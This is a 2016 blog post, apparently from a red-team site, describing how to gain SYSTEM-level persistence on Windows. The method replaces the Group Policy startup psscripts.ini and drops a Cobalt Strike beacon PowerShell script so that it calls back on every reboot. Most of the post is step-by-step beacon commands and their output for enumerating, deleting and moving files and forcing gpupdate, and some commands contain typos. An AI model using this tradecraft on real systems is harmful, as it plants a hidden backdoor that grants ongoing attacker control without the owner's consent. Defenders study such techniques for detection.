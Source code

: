 ```yaml
---
author: killswitch
comments: false
date: 2016-01-25 04:32:51+00:00
layout: post
link: http://cybersyndicates.com/2016/01/system-context-persistence-in-gpo-startup/
slug: system-context-persistence-in-gpo-startup
title: SYSTEM Context Persistence in GPO Startup Scripts
wordpress_id: 724
tags:
- cobaltStrike
---
```


Interesting enough I was recently experimenting on GPO settings to configure my Applocker for testing and came by Scripts under the (Computer Configuration) settings for GPO. This defiantly caught my attention, since persistence is a cat and mouse game of stored locations / methods. **This has been mentioned but I haven't seen it talked about so hey why not share what I did**

[![Screen Shot 2016-01-24 at 10.36.07 PM](/wp-content/Screen-Shot-2016-01-24-at-10.36.07-PM.png)](/wp-content/Screen-Shot-2016-01-24-at-10.36.07-PM.png)

I knew I wanted to weaponize it from a pure command line standpoint as the configuration utility is pretty much point and click. Some of the assumptions are:

  1. You have already elevated or have Local Admin context on the box
  2. Have the ability to upload a file in your agent (CobaltStike) / Have a Deployable .BAT/PS script 
  3. Willing to drop something to disk for persistence

[![Screen Shot 2016-01-24 at 10.41.18 PM](/wp-content/Screen-Shot-2016-01-24-at-10.41.18-PM.png)](/wp-content/Screen-Shot-2016-01-24-at-10.41.18-PM.png)

While that GUI looks quite simple and easy to use, that would be to dang easy! Lets get started:

The current process I use to deploy a CS Fully Staged Beacon:

  1. Enumerate current GPO scripts    
  2. Remove the psscripts.ini
  3. Upload a new psscripts.ini
  4. Upload the Beacon.ps1 scripts
  5. conduct a Gpupdate
  6. On restart you should get a beacon!

The location of interest (while this seems trivial, do to the permissions on this directory you will have to force all commands):
    
    C:\Windows\System32\GroupPolicy\Machine\Scripts\Startup



Enumerate the Dir (See if a scripts.ini is built):

    beacon> powershell Get-ChildItem -Force C:\Windows\System32\GroupPolicy\Machine\Scripts\
    [*] Tasked beacon to run: Get-ChildItem -Force C:\Windows\System32\GroupPolicy\Machine\Scripts\
    [+] host called home, sent: 77 bytes
    [+] received output:
     Directory: C:\Windows\System32\GroupPolicy\Machine\Scripts
    Mode LastWriteTime Length Name 
    ---- ------------- ------ ---- 
    d---- 10/15/2015 6:36 PM Shutdown 
    d---- 1/24/2016 5:57 PM Startup 
    -a-h- 1/24/2016 5:28 PM 184 psscripts.ini

Enumerate to see the current scripts in-play:    

    powershell type C:\Windows\System32\GroupPolicy\Machine\Scripts\psscripts.ini



As you will noticed the structure goes (the 0Cmd.. is incremental):
    
    [ScriptsConfig]
    StartExecutePSFirst=true
    [Startup]
    0CmdLine=beacon2.ps1
    0Parameters=



Simply copy this data and save it locally in a text editor and add in you PS agent name. Once you have completed this go ahead and upload to the target. A side note on this, something extremely weird happens when trying to use the built in shell / ls / cd within CS beacons. While this was a pain, I just resorted to using PS for most of it.

Go ahead and delete the original psscripts.ini:
    
    powershell Remove-Item -Force C:\Windo0ws\System32\GroupPolicy\Machine\Scripts\psscripts.ini



After uploading the script to the C:\ drive (In my case I no ability to upload directly to the location):

    powershell Move-Item -force -path C:\psscripts.ini -destination C:\Windows\System32\GroupPolicy\Machine\Scripts\



Finally using CS Beacons Stageless PowerShel script I moved that to the required location:

    powershell Move-Item -force -path C:\beacon2.ps1 -destination C:\Windows\System32\GroupPolicy\Machine\Scripts\Startup
    
    gpupdatep /force



Finally on reboot you should have a callback! :)

[![Screen Shot 2016-01-24 at 11.25.47 PM](/wp-content/Screen-Shot-2016-01-24-at-11.25.47-PM.png)](/wp-content/Screen-Shot-2016-01-24-at-11.25.47-PM.png)

To wrap up this seems like a great SYSTEM level call back and the cool part is you can add in parameters for custom payloads. Ex. if you wanted to only start at certain time you could pass the time or date that would like to restrict or even extend. This method seems extremely strong and has proved to be reliable method. Soon to come is the CS aggressor script and PS script to automate this.
